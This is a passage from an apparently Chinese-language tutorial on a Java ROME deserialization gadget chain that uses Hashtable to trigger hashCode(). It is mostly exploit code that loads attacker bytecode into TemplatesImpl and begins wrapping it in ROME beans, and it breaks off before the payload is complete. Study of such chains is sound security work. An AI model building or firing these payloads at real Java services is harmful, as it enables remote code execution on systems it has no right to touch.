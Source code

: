 我们可以发现key调用了hashCode()方法，这样就又能够任意类调用hashCode了：

[![](assets/1701612185-e7910ae6c0a73a310ac75139422bf797.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230807155252-691aecf0-34f7-1.png)

```plain
package EXPROME;

import java.util.Hashtable;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import com.sun.syndication.feed.impl.EqualsBean;
import com.sun.syndication.feed.impl.ObjectBean;
import com.sun.syndication.feed.impl.ToStringBean;
import org.apache.commons.collections.map.LazyMap;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InvokerTransformer;

import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.HashMap;

public class RomeHashTable {
    public static void setValue(Object obj,String name,Object value)throws Exception {
        Field field = obj.getClass().getDeclaredField(name);
        field.setAccessible(true);
        field.set(obj, value);
    }
    public static void main(String[] args) throws Exception{

        byte[] code = Files.readAllBytes(Paths.get("D://Tomcat/CC/target/classes/EXPROME/Demo.class"));
        byte[][] codes = {code};
        TemplatesImpl templates = new TemplatesImpl();
        Class tc = templates.getClass();
        setValue(templates,"_name","Ic4F1ame");
        setValue(templates, "_tfactory", new TransformerFactoryImpl());
        setValue(templates,"_bytecodes",codes);


        ToStringBean toStringBean = new ToStringBean(Templates.class,new ConstantTransformer(1));

        ObjectBean objectBean = new ObjectBean(ToStringBean.class,toStringBean);

```